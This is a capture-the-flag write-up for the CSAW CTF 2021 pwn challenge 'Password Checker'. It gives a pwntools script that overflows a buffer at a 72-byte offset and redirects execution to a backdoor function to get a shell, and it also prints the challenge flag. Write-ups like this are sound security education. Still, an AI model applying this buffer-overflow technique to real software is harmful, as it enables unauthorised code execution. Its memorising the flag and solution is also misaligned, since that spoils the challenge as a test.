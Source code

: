 ```yaml
---
name: Password Checker (2021)
event: CSAW CTF 2021
category: Pwn
description: Writeup for Password Checker (pwn) - CSAW CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Password Checker

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/1Dw21NoxXjE/0.jpg)](https://youtu.be/1Dw21NoxXjE?t=315s "CSAW 2021: Password Checker")

## Challenge Description

> Charlie forgot his password to login into his Office portal. Help him to find it.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './password_checker'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

# Start program
io = start()

# Build the payload
payload = flat([
    offset * "A",
    elf.symbols.backdoor
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter('>', payload)

# Got Shell?
io.interactive()
```

Flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`
